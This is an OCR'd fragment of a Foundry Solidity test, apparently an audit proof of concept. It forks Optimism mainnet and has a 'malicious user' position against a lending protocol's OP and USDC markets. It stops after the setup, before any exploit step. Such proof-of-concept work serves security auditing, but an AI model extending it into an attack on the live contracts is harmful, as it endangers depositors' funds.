 ```solidity
forge test --match-test test_backup_borrowed --evm-version cancun
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import { Market } from "protocol/contracts/Market.sol";
import { InterestRateModel } from "protocol/contracts/InterestRateModel.sol";
import { FixedLib } from "protocol/contracts/utils/FixedLib.sol";
import {Test, console2, console} from "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract TestMarket is Test {

    Market marketOP = Market(0xa430A427bd00210506589906a71B54d6C256CEdb);
    Market marketUSDC = Market(0x81C9A7B55A4df39A9B7B5F781ec0e53539694873);

    IERC20 optimism = IERC20(0x4200000000000000000000000000000000000042); 
    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);

    uint256 public optimismFork;
    string OPTIMISM_RPC_URL = vm.envString("OPTIMISM_RPC_URL");

    function setUp() public {
        optimismFork = vm.createSelectFork(OPTIMISM_RPC_URL);
        assertEq(optimismFork, vm.activeFork());
    }

    function test_backup_borrowed() public {
        vm.rollFork(119348257); // Abr 28
        uint256 maturity = block.timestamp - (block.timestamp % 4 weeks) + 16 weeks;
        uint256 floatingLiquidity = 1_000_000e18;
        uint256 fixedLiquidity = 500_000e18;

        // Malicious user has deposited at variable rate on the OP market
        deal(address(optimism), address(this), floatingLiquidity);
        optimism.approve(address(marketOP), floatingLiquidity);
        marketOP.deposit(floatingLiquidity, address(this));
        marketOP.auditor().enterMarket(marketOP);

        vm.warp(block.timestamp + 2 weeks);

        // Simulate users borrowing from the OP market at fixed and floating rate
        address user = makeAddr("user");
        vm.startPrank(user);
        deal(address(usdc), user, 5_500_000e6);
        usdc.approve(address(marketUSDC), 5_500_000e6);
        marketUSDC.deposit(5_500_000e6, user);
        marketUSDC.auditor().enterMarket(marketUSDC);
        marketOP.borrowAtMaturity(maturity, 500_000e18, type(uint256).max, user, user);
        marketOP.borrow(500_000e18, user, user);
        vm.stopPrank();

        // Malicious user provides liquidity for the fixed pool
        deal(address(optimism), address(this), fixedLiquidity);
        optimism.approve(address(marketOP), fixedLiquidity);
        uint256 positionAssets = marketOP.depositAtMaturity(maturity, fixedLiquidity, 0, address(this));

```